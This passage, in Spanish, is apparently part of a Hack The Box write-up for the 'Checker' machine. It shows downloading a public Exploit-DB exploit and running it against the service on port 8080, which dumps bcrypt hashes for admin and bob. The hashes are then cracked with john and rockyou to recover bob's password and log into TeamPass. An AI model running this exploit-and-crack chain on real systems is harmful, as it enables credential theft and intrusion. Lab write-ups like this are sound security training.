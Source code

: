 Descargo un exploit público y lo ejecuto apuntando al servicio en el puerto 8080.

```terminal
/home/kali/Documents/htb/machines/checker:-$ wget https://www.exploit-db.com/raw/52094

(venv)-/home/kali/Documents/htb/machines/checker:-$ python3 52094 http://checker.htb:8080/
2025-04-27 18:09:20,781 - INFO - Encontrados 2 usuários no sistema
2025-04-27 18:09:22,951 - INFO - Credenciais obtidas para: admin
2025-04-27 18:09:25,094 - INFO - Credenciais obtidas para: bob

Credenciais encontradas:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

Guardo los hashes en un archivo y realizo el crackeo con john.

```terminal
/home/kali/Documents/htb/machines/checker:-$ echo 'admin:$2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya\nbob:$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy' > creds.txt

/home/kali/Documents/htb/machines/checker:-$ john --list=formats creds.txt
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])

/home/kali/Documents/htb/machines/checker:-$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt creds.txt
cheerleader      (bob)
```

Con las credenciales `bob`:`cheerleader` ingreso a la interfaz web de TeamPass. Dentro del sistema aparecen dos entradas, BookStack y SSH Access.

![](assets/img/htb-writeup-checker/checker2_1.png)